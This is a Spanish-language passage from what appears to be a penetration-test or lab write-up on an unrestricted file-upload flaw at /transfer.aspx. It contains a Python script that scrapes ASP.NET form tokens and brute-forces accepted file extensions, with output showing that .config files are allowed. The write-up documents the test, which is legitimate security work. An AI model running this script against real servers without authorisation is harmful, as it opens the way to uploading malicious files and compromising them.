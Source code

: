 # Subida de archivos no controlada
En la ruta '**/transfer.aspx**' se detectó un recurso de subida de archivos. Mediante la creación de un script en Python3, fue posible determinar que el servidor toma la extensión `.config` como válida, pudiendo en consecuencia subir este archivo sin ningúnt tipo de restricción.

A continuación, se proporciona el script creado durante el proceso de auditoría:

```python
#!/usr/bin/python3
#coding: utf-8

import re
import signal
import requests
import pdb
import time
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
upload_url = "http://10.10.10.93/transfer.aspx"
burp = {'http': 'http://127.0.0.1:8080'}

def uploadFile(extension):

    s = requests.session()
    filename = "example%s" % extension
    response = s.get(upload_url)

    ViewState = re.findall(r'__VIEWSTATE" value="(.*?)"', response.text)[0]
    EventValidation = re.findall(r'__EVENTVALIDATION" value="(.*?)"', response.text)[0]

    uploaded_file = {'FileUpload1': (filename,"Contenido de prueba")}

    data_post = {
        '__VIEWSTATE': ViewState,
        '__EVENTVALIDATION': EventValidation,
        'btnUpload': 'Upload'
    }

    response = s.post(upload_url, data=data_post, files=uploaded_file, proxies=burp)

    if "Invalid File. Please try again" not in response.text:
        p1.success("La extensión %s es válida" % extension)

if __name__ == '__main__':

    fp = open("extensions", "r")

    p1 = log.progress("Subida de archivos")
    p1.status("Subiendo archivos al servidor")
    time.sleep(2)

    for extension in fp:
        p1.status("Probando con extensión %s" % extension)
        uploadFile(extension.strip('\n'))
```

Obteniendo los siguientes resultados tras su ejecución:

```bash
> python3 extensionDiscovery.py
[+] Subida de archivos: La extensión .config es válida
```